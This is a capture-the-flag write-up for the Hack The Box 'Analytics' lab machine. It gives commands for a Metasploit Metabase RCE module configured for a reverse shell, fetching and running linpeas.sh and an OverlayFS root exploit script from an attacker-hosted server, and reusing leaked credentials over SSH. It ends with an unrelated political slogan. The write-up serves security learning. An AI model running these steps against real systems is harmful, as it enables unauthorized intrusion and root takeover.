<h1 align="center">Analytics HTB Writeup</h1>


### Detailed walkthrough and step-by-step guide to Hack The Box Analytics Machine using MetaSploit on Kali linux exploring foothold options along with the needed exploit to gain user and root access on the target's machine (Linux OS)

#### NOTE: if you want to know more details about methods and payloads used in my writeup please, see the last section (Resources and Links) in this writeup for more information and link to resources used in this guide.
							
----------------------------------------------------------------------------------------------------------------------------------------------------

 ## Enumeration and Target Info
 	
----------------------------------------------------------------------------------------------------------------------------------------------------	

- IP Address: 10.10.11.222
- Domains: analytical.htb & data.analytical.htb
- Open Ports: 22/tcp ssh & 80/tcp http
- Ubuntu 22.04.3
	
----------------------------------------------------------------------------------------------------------------------------------------------------


 ## nmap scan
 	
----------------------------------------------------------------------------------------------------------------------------------------------------	

- **Seeing the results of nmap below we notice that we have 2 ports open to work with, SSH (Port 22) that we will set it on the side for the moment. What we will work with for now is the second open port, which is the HTTP port 80 to explore the web application.**

    ```python
    ┌──(root㉿kali)-[~/htb/machines/analytics]
    └─# nmap -sC -A -O -sV -Pn -p- --min-rate 1000 10.10.11.233 -oN scan-map
    ``` 

    	
	
	
----------------------------------------------------------------------------------------------------------------------------------------------------
 
 ## Dirsearch / Gobuster
 	
----------------------------------------------------------------------------------------------------------------------------------------------------	
- **Dirsearch doesn't seem to have any useful data.**

    ```python
    ┌──(root㉿kali)-[~/htb/machines/analytics]
    └─# dirsearch -u http://analytical.htb/     
    ```

    
 <p>&nbsp;</p>

----------------------------------------------------------------------------------------------------------------------------------------------------
      
 ## Foothold and General Approach
	
----------------------------------------------------------------------------------------------------------------------------------------------------	 

- **Before we start exploring the HTTP page in our browser, we first add the domain(s) of the target's IP address to our local hosts file (/etc/hosts) to resolve for the DNS of the target's IP like shown below .**


    ```python
    ┌──(root㉿kali)-[~/htb/machines/analytics]
    └─# nano /etc/hosts 
    ```   

    


- **We scope and explore the website's HTTP page and inspect requests that are being made from and to the target using burp, we discover leaked data in the requests revealing the SQL Database type of the Web Application and turns out to be using PostgeSQL and other details related to Metabase in the same response that we might use later on to check for exploits for Metabase.** 
		
    		


- **When navigating to the login page we get redirected to a subdomain which is 'data.analytical.htb' and it asks us for credentials in order to login. Knowing so, we can try to explore sql injection options to try harvesting credentials from the Database to gain a foothold into the system but still early to decide, so lets keep digging.**

    


- **With the inteligence that we gathered so far, we have two possible options to gain initial access.**
    - **Option 1: Try some sql injection tests to see if we can communicate with the DB to harvest credentials that we can use to login.**

    - **Option 2: Look up possibilities of finding Metabase exploit that can help us achieve our current goal of gaining initial access.**


- **While exploring option 2 of the original plan. We find something very interesting searching for metabase exploits using MetaSploit on kali and we find the below metabase RCE exploit!!! So let's give it a try. Shall we begin?**


    ```python
    ┌──(root㉿kali)-[~/htb/machines/analytics]
    └─# msfconsole 
    ```       

    ```python
    msf6 > search metabase
    ```

    


- **Before we jump in and run the exploit, We prepare the exploit by viewing and providing the required  arguments in order for us to run the exploit like shown below**

    ```python
    msf6 > use exploit/linux/http/metabase_setup_token_rce
    ```

    ```python
    msf6 exploit(linux/http/metabase_setup_token_rce) > show options
    ```

    ```python
    msf6 exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
    RHOST => data.analytical.htb
    msf6 exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
    RPORT => 80
    msf6 exploit(linux/http/metabase_setup_token_rce) > set LHOST 10.10.16.55
    LHOST => 10.10.16.55
    msf6 exploit(linux/http/metabase_setup_token_rce) > set LPORT 4444
    ```


    


- **What do you know, it WORKED! we successfully got a Reverse Shell into the database!**


    ```python
    msf6 exploit(linux/http/metabase_setup_token_rce) > exploit
    ```


    


- **(Optional) We can upgrade our reverse shell to meterpreter to make our life easier and enable us to use other payloads using meterpreter and to do so please follow the instructions in the link below if thats something you are interested in.**

    https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646

    <p>&nbsp;</p>
----------------------------------------------------------------------------------------------------------------------------------------------------
 
 # User Access
	
----------------------------------------------------------------------------------------------------------------------------------------------------	 

- **Now since we have our initial access to metabase system lets gather information that could help us find leaked credentials or way to escalate our privileges later on. For this task, I usually prefer using linpeas.sh (linux) as it scans the system for important files, possible exploits and many more details to help us achieve our targeted goal, which is gaining user access for now.**

    <p>&nbsp;</p>

    - **To get started, we download linpeas.sh (included in this repo) on the victim's system by doing the following:**

        **1- Navigate your terminal to the path where you have downloaded linpeas.sh to and host the folder over HTTP by typing the below command in your terminal.**


        ```python
            ┌──(root㉿kali)-[~/htb/machines/analytics/payloads]
            └─# python3 -m http.server 80
        ``` 
       
        **2- Now we are ready to download the payload to the victim's home path by typing the below command in the rev-shell terminal that we got eariler using msfconsole (MetaSploit) and we give linpeas.sh execution privileges before we execute it. (metabase)**

           $ wget http://10.10.1x.xx/linpeas.sh
           $ chmod +x linpease.sh
           $ ./linpeas.sh


                                                     
        

- **After we run linpeas, we go through the results and we dicover leaked user credentials in the environment section. Using these credentials we attempt to ssh to the target using the discovered username and password.**

    ```python
    ┌──(root㉿kali)-[~/htb/machines/analytics/extracted]
    └─# ssh metalytics@10.10.11.233
    ``` 

    

- **As you can see from the screenshot below that we have successfully managed to login into the target's internal system and reveal the user's flag.**
    


* **Note: You can download linpeas.sh directly from this repo or check the Github link for the original project in the resources and links section at the end for more information.**

----------------------------------------------------------------------------------------------------------------------------------------------------    
      
 ## Privilege Escalation (PE)
   
----------------------------------------------------------------------------------------------------------------------------------------------------     

- **In this section of the writeup we will be attempting to find a way to escalate our privileges to move vertically. Our next target will be root user enabling us to take total control of the target and reveal the root flag.**

    - **Just like we did earlier, we download and run linpeas.sh to see what are we dealing with and try finding the correct approach to gain root access on this system.**

    - **After running linpeas, using the generated information let's first do initial system checks. It's recommended that we first start by gathering and researching basic system information like OS version, services vailable to user, current user permission, etc. to check for vulnerabilites before diving deeper and complicating things. If we don't find any obvious way to escalate our privileges then we dig deeper.**

    - **Searching for PE exploits related to Ubuntu 22.04 reveals a recent exploit that was discovered utilizing OverlayFS that might lead us to escalate our privileges and gain root access if the system is vulnerable (CVE-2023-2640 & CVE-2023-32629). So let's chase this lead and see where it will take us and move from there.**

    - **After reading about the overlayfs exploit and modifiying minor variables in the exploit to see if we can get it to work. I wrote the exploit as bash executable (gameoverlay.sh), to make it easier by downloading it onto the target machine to execute it using the below list of commands.**

           $ wget http://10.10.1x.xx/gameoverlay.sh
           $ chmod +x gameoverlay.sh
           $ ./gameoverlay.sh 

    - **BINGO! Executing the exploit on the system indeed worked successfully, as you can see from the screenshot below our "id" information before and after executing the exploit we have root uid!!!** 

        
	
* **Note: Exploit used for this project is available in this repo "gameoverlay.sh". It has been modified to work on this machine. To learn more about the exploit (CVE-2023-2640 & CVE-2023-32629) please, Check the link in the "Resources and Links" section**	
----------------------------------------------------------------------------------------------------------------------------------------------------    
	
 ## Root Access
      
----------------------------------------------------------------------------------------------------------------------------------------------------    

- **Having the above Ubuntu kernel exploit executing successfully giving us root uid, now we have total control over the host target (GAMEOVER FOLKS). So we navigate to root's home path (/root) and in doing so, we can see the screenshot below that we were able to read root.txt flag.**

    


<p align="center">
  
</p>

<p align="center">
  
</p>

----------------------------------------------------------------------------------------------------------------------------------------------------    

 ## Resources and Links
      
----------------------------------------------------------------------------------------------------------------------------------------------------      

- **MetaSploit upgrade shell to meterpreter shell**

    https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646

- **PEASS-ng Github repo for Privilege Escalation**

    https://github.com/carlospolop/PEASS-ng
  
- **Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)** 

    https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/


<p>&nbsp;</p>

# FROM THE RIVER TO THE SEA, PALESTINE WILL BE FREE! 

[](https://postimg.cc/gxLdntSj)
      
      
      
      
      
      
      
      
      
      


